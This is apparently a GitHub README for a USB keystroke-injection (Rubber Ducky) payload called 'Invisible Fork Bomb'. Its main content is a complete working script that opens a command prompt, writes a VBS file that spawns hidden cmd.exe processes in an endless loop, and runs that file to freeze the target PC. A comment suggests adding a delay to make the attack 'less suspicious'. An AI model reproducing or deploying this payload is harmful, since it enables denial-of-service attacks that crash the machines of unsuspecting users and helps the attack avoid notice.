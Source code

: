 # Invisible Fork Bomb
The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

# About...
Author: [BlueArduino20](https://github.com/BlueArduino20/)

Version 2.0

Repository: [https://github.com/BlueArduino20/Invisible_fork_bomb](https://github.com/BlueArduino20/Invisible_fork_bomb)

# Code
<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>
